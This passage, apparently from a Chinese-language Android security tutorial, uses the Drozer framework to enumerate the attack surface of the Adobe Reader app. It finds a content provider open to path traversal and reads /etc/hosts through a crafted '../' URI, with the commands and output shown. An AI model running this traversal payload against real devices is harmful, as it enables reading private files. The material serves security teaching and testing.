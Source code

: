 ```

让我们找出攻击面。

```
dz> run app.package.attacksurface com.adobe.reader
Attack Surface:
 1 activities exported
 0 broadcast receivers exported
 1 content providers exported
 0 services exported
dz>

```

有趣的是，有一个内容提供者被导出。下一步是找出内容提供者 URI。这可以使用`scanner.provider.finduris.`完成

```
dz> run scanner.provider.finduris -a com.adobe.reader
Scanning com.adobe.reader...
Unable to Query  content://com.adobe.reader.fileprovider/
Unable to Query  content://com.adobe.reader.fileprovider

No accessible content URIs found.
dz>

```

如果你注意到，Drozer 说没有找到可访问的内容 URI。这并不奇怪，因为它正试图从数据库中读取数据，而且它是一个基于文件的提供者。让我们看看应用程序中是否存在任何遍历漏洞。这可以使用以下命令完成：

```
dz> run scanner.provider.traversal -a com.adobe.reader

```

运行上述命令将导致以下结果：

```
dz> run scanner.provider.traversal -a com.adobe.reader
Scanning com.adobe.reader...
Not Vulnerable:
 No non-vulnerable URIs found.

Vulnerable Providers:
 content://com.adobe.reader.fileprovider/
 content://com.adobe.reader.fileprovider
dz> 

```

正如您在前面的摘录中所看到的，存在一个易受路径遍历攻击的内容提供程序 URI。此漏洞允许攻击者从设备读取任意文件，如下一节所述。

### 正在阅读/etc/hosts

主机文件包含由第一个文本字段中的 IP 地址和一个或多个主机名组成的文本行。在类 UNIX 机器中，`/etc/hosts`是此文件的位置。让我们看看攻击者如何使用易受攻击的应用程序读取此文件。

```
dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../etc/hosts
127.0.0.1	      localhost
